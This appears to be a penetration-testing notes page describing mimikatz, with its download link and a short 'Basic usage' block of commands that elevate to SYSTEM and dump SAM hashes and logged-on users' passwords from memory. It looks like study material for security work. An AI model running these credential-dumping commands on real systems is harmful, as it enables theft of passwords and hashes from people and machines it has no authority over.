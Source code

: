 ```yaml
---
title: mimikatz
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - dump hashes
  - passwords
---
```



# mimikatz

**`mimikatz`** is a tool made in `C` .

It's now well known to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. **`mimikatz`** can also perform pass-the-hash, pass-the-ticket or build _Golden tickets_.

Kiwi module in [a meterpreter in metasploit](metasploit.md) is an adaptation of mimikatz.

## No installation, portable

Download from github repo: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz).


## Basic usage

```bash
# Impersonate as NT Authority/SYSTEM (having permissions for it).
token::elevate

# List users and hashes of the machina
lsadump::sam

# Enable debug mode for our user
privilege::debug

# List users logged in the machine and still in memory
sekurlsa::logonPasswords full

